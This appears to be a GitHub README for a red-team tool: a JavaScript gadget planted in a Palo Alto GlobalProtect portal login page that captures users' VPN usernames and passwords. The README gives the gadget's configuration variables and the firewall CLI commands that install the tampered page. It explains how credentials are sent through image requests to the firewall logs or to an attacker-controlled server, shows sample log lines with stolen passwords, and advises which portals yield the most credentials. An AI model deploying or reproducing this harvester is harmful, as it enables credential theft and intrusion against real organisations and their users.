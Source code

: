 # Palo Alto Network Firewall Response Pages Login Credential Harvester

This project is a javascript gadget that red-teamers can use to harvest
credentials from users signing in to GlobalProtect Portals and Clientless VPN.

The gadget operates in two modes, `local` and `remote`, and installs an event
listener that intercepts the successful login form submissions and sends the
user credentials to either local URL path on the firewall or a remote web site.

The web access logs on the local firewall or remote server can then be searched
for the requests containing the credentials.

## Configuration

The `harvester` response page script requires some editing and configuration
before using.

Near the top of the page are three variables:

```javascript
            const method = "local"; // Change this to "local" to send to firewall logs
            const token = "qwerty"; // Change this to a unique value
            var remoteUrl = "<image url>"; // An image, 1x1 pixel PNG, hosted on a server that you control.
```

- `method` controls whether the script sends the request to the `local` firewall
  GlobalProtect web server or to a `remote` server.
- `token` should be set to a unique value, e.g. a per campaign identifier, to
  make it easier to search the logs.
- `remoteUrl` is a URL to an image file hosted on a server that you control and
  have access to the access logs.
  We recommend this [1x1.png](https://en.m.wikipedia.org/wiki/File:1x1.png).
  The `remoteUrl` is used with the `remote` method.
  The `remoteUrl` must return an image file (gif, jpeg, png, svg, etc).

## Installation

After configuring the response page you can load it into the firewall with this
command:

```
# set shared response-page global-protect-portal-custom-login-page <harvester name> page <base64 encoded harvester>
# set global-protect global-protect-portal <portal name> portal-config custom-login-page <harvester name>
# commit
```

## Usage

The `harvester` currently only supports harvesting credentials for the
`GlobalProtect Portal Login Page` response page.

There are two use cases where the credentials for users signing in can be
captured:

1. Users signing in to the GlobalProtect Portal to download the GlobalProtect
   VPN agent client software.
2. Users signing in to the GlobalProtect Portal to connect to the Clientless VPN
   (aka SSL VPN) portal.

In most environments the first case will be infrequently used as they will
distribute the client to their endpoints via their endpoint management platform.
Target environments are more likely to leave this enabled for managed service
providers and contractors to be able to download and install the VPN client on
their own computers.

The second case, if in use, will be more likely to gather credentials as the
users may have more need to connect to the Clientless VPN to access the
applications it provides access to.

### Credentials logs

The credentials will be in the access logs of the `remote` web server.
Easiest way to find them is to search for the `token` value you configured.

They will remote logs will look something like this:

```
1.2.3.4 - - [18/Jan/2025:20:49:34 -0800] "GET /gpvpn/logo.png?token=qwerty&username=alice&password=letmein123&nc=0.7448065807029041 HTTP/2.0" 200 241 "https://gpvpn.victim.com/" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/132.0.0.0 Safari/537.36"
```

The `local` method credentials can be found in the SSL VPN access logs.
These are only available via the CLI or tech support file.

To view them on the CLI SSH to the firewall and run:

```
less webserver-log sslvpn_access.log
```

Then type `/`, type the token value and press enter to search.
Type `/` and enter again to repeat the search.

From the CLI you can generate and download the tech support file using the
commands:

```
scp export tech-support to user@host.domain:/directory/to/save
```

The access log can be found in `/var/log/nginx/sslvpn_access.log` in the tech
support tar.gz file.

The local logs will look like this:

```
1.2.3.4 54583 - 172.16.1.4 20077 [19/Jan/2025:00:44:13 -0800] "GET /global-protect/portal/images/logo-pan-48525a.svg?token=qwerty&username=alice&password=letmein123&nc=0.4744690309853232 HTTP/1.1" 200 12316 "https://gpvpn.victim.com/global-protect/login.esp" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/132.0.0.0 Safari/537.36" 1737276253.465 0.000 - 1510
```
## To Do

Develop gadgets for the `Captive Portal Comfort Page` and `MFA Login Page`.
